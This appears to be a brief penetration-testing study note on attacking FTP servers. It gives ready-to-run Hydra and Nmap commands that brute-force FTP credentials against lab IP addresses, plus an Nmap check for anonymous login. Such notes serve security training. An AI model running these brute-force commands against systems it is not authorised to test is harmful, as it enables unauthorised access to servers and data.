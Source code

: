 - FTP stands for File Transfer Protocol.
- The default port used by FTP is 21/tcp.

FTP Bruteforcing with Hydra
	- `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.213.157.3 ftp`

FTP Bruteforcing with Nmap
	- `echo "sysadmin" > users`
	- `nmap 192.213.157.3 --script=ftp-brute --script-args userdb=/root/users -p21`

Checking for FTP Anonymous Login using Nmap
	- Some default access configurations can be misused to gain access to FTP servers, Anonymous Login is one such security misconfiguration.
	- The `ftp-anon.nse` script can be used to check for anonymous ftp login, instead of manually checking for it.
	- `nmap 192.13.191.3 -p 21 --script ftp-anon`
	- If a FTP server is vulnerable to Anonymous Login, one can log into it using the username "anonymous" and no password.